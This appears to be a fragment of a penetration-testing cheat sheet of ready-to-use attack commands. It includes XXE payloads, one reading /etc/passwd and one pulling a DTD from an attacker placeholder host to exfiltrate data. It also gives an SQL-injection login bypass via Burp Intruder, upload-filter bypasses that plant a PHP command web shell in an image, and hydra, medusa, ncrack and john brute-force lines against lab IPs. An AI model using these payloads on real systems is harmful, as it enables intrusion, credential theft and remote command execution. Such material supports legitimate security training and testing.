 ```
Malicious XML:

<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY>
<!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack The
%26book%3B</thp>

XXE OOB

<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://[YOUR_IP]/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```

### Sql-login-bypass

- Open Burp-suite
- Make and intercept a request
- Send to intruder
- Cluster attack.
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation

### Bypass image upload restrictions

```
- Change extension: .pHp3 or pHp3.jpg
- Modify mimetype: Content-type: image/jpeg
- Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
- Add gif header: GIF89a;
- All at the same time.
```

## Password brute force - last resort


# Checklist
	1) Try logging in as $username:$username. Ex: goat:goat
 	2) Hashcat sometimes fails to crack hashes. In this case, simply try out john
  	3) Last resort is using the rock you wordlist
   
Offline local resources

```
cewl
hash-identifier
pdfcrack SomeFile.pdf -w ~kali/rockyou.txt (For PDF files with passwords)
fcrackzip -u -D -p ~kali/rockyou.txt SomeZip.backup (Cracking zip files passwords)
rar2john MSSQL_BAK.rar --> john -wordlist=/home/kali/Documents/crack/rockyou.txt  MSQL.hashes (Cracking rar files)
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --wordlist=/home/kali/Documents/crack/rockyou.txt  sammy_hash.txt # Crack user hash [user:hash] in file
medusa -h 10.11.1.111 -u admin -P password-file.txt -M http -m DIR:/admin -T 10
ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.111
crowbar -b rdp -s 10.11.1.111/32 -u victim -C /root/words.txt -n 1
hydra -l root -P password-file.txt 10.11.1.111 ssh
hydra -P password-file.txt -v 10.11.1.111 snmp
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 ftp -V
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 pop3 -V
hydra -P /usr/share/wordlistsnmap.lst 10.11.1.111 smtp -V

# SIMPLE LOGIN GET
```
